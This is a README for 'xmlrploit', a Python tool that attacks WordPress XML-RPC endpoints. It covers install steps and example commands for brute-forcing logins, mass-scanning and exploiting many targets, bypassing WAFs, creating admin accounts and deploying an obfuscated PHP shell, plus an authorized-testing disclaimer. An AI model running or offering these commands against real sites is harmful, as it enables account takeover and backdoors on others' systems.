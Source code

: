 # xmlrploit

**XML-RPC Exploit & Brute Tool for WordPress**

---

![xmlrploit Banner](logo.jpg)

> A powerful tool to detect and exploit vulnerable WordPress XML-RPC endpoints, bruteforce logins, and perform mass scanning. Created by **@karranwang**.

---

## Features

- **Exploit XML-RPC** vulnerabilities (`system.listMethods`, `pingback.ping`).
- **Bruteforce** WordPress login via XML-RPC.
- **Mass scanning** and exploitation across many targets.
- **Deploy custom PHP Shell** automatically.
- **Bypass WAF** (Web Application Firewalls) by customizing headers.
- **Auto Admin Creator** after successful bruteforce.
- **Scan-only mode** to only detect active XML-RPC.

---

## Installation

Clone this repository

```bash
$ git clone https://github.com/karranwang/xmlrploit.git
```

```bash
$ cd xmlrploit
```

# Install dependencies

```bash
$ pip install -r requirements.txt
```

**Required Python Modules:**

- `requests`
- `pyfiglet`

Install manually if needed:

```bash
pip install requests pyfiglet
```

---

## Usage

```bash
python xmlrploit.py [options]
```

### Modes

| Mode    | Description |
|---------|-------------|
| exploit | Exploit XML-RPC on a target |
| brute   | Brute-force login via XML-RPC |
| mass    | Mass scan multiple targets |

### Options

| Option          | Description |
|-----------------|-------------|
| -u, --url       | Target URL (http://target.com/xmlrpc.php) |
| -m, --mode      | Mode (exploit, brute, mass) |
| -f, --file      | File containing list of targets or passwords |
| -t, --thread    | Number of threads (default: 5) |
| --deploy-shell  | Deploy obfuscated PHP shell automatically |
| --bypass-waf    | Attempt to bypass WAF protections |
| --method        | XML-RPC method to exploit (`listMethods`, `pingback`) |
| --username      | Username for brute mode |
| --scan-only     | Only scan XML-RPC (no exploitation) |

---

## Examples

### 1. Exploit a Single Target

```bash
python xmlrploit.py -u http://target.com/xmlrpc.php -m exploit
```

### 2. Bruteforce Login

```bash
python xmlrploit.py -u http://target.com/xmlrpc.php -m brute -f passwords.txt --username admin
```

### 3. Mass Scan and Exploit

```bash
python xmlrploit.py -m mass -f targets.txt
```

### 4. Scan Only (No Exploit)

```bash
python xmlrploit.py -u http://target.com/xmlrpc.php -m exploit --scan-only
```

```bash
python xmlrploit.py -m mass -f targets.txt --scan-only
```

### 5. Exploit with Shell Upload and WAF Bypass

```bash
python xmlrploit.py -u http://target.com/xmlrpc.php -m exploit --deploy-shell --bypass-waf
```

---

## Notes

- Tool created for **educational and authorized testing** only.
- Always ensure you have permission to scan or exploit any target.
- Use at your own risk.

---

## License

MIT License

---

## Credits

- Coded by [@karranwang](https://github.com/karranwang)

---

## Support

If you like this project, give it a star! ⭐

```bash
git clone https://github.com/karranwang/xmlrploit.git
```

```bash
cd xmlrploit
```

```bash
python xmlrploit.py
```


